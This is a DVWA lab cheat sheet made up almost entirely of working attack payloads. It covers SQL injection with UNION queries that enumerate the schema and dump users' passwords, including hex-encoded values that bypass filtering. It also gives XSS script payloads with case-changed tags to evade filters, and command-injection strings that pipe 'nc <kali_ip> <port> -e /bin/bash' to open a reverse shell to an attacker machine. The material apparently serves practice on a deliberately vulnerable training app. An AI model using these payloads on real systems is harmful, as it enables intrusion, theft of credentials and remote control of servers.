 # SQL injection
<h3>low security level</h3>

- To find all tables, from a database called “dvwa”: 
`1' UNION SELECT table_name,null FROM information_schema.tables WHERE table_schema = 'dvwa'#`

 - To find all columns, from the database called “dvwa”: `1' UNION SELECT column_name,null FROM information_schema.columns WHERE table_schema ='dvwa'#`

 - To find all column names of the table named “users”, from a database called “dvwa”: `1' UNION SELECT column_name,null FROM information_schema.columns WHERE table_name = 'users' AND table_schema = 'dvwa'#`

 - To get the content of one column of the table named “users”, from a database called “dvwa”: `1' UNION SELECT password,null FROM dvwa.users#`
<h3>medium security level</h3>
 
 - To find all tables, from a database called “dvwa”: `1 union select table_name,null from information_schema.tables where table_schema = 0x64767761`
 - Note: `0x64767761` is DB name `dvwa` but decoded to hex u can use this website for decoding : https://cryptii.com/pipes/hex-decoder
 
 - To find all columns, from the database called “dvwa”: `1 UNION SELECT column_name,null FROM information_schema.columns WHERE table_schema = 0x64767761`

 - To find all column names of the table named “users”, from a database called “dvwa”: `1 UNION SELECT column_name,null FROM information_schema.columns WHERE table_name = 0x7573657273 AND table_schema = 0x64767761`

 - To get the content of one column of the table named “users”, from a database called “dvwa”: `1 UNION SELECT password,null FROM dvwa.users`

# XSS
<h3>low security level</h3>

- To reflect on the screen your name using reflected / stored XSS: `<script>alert('$YOUR_NAME')</script>`

<h3>medium security level</h3>

- To reflect on the screen your name using reflected / stored XSS: `<sCript>alert('$YOUR_NAME')</Script>`
- Note: use uppercase in the word `<script>` to ignore website filtering

# Command Execution 
<h3>low security level</h3>

- To show the Path: `; pwd`
- To show the list of files and directories: `; ls -la`
- First run in terminal: `nc -lvp <port>`
- To connect remotely with the kali-Linux using netcat nc in DVWA: `; nc <kali_ip> <port> -e /bin/bash`
- Note: u can get your `kali_ip` from writing in terminal: `ifconfig`
 => then u will get your kali ip: `inet <kail_ip>`
<h3>medium security level</h3>

- To show the Path: `| pwd`
- To show the list of files and directories: `| ls -la`
- First run in terminal: `nc -lvp <port>`
- To connect remotely with the kali-Linux using netcat nc in DVWA: `| nc <kali_ip> <port> -e /bin/bash`
